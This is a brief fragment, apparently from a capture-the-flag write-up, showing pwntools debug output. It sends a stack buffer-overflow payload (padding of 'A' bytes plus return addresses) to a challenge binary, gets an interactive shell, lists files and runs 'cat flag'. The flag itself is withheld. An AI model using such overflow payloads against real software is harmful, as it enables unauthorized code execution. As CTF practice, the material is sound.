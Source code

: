 ```bash
[DEBUG] Sent 0x2 bytes:
    '5\n'
[*] send 5
[DEBUG] Received 0xb bytes:
    '[Attack] > '
[DEBUG] Sent 0x9d bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000090  b0 85 04 08  41 41 41 41  b1 8e 04 08  0a           │····│AAAA│····│·│
    0000009d
[*] send payload
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xa bytes:
    'flag\n'
    'main\n'
flag
main
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
```
~~flag는 비공개~~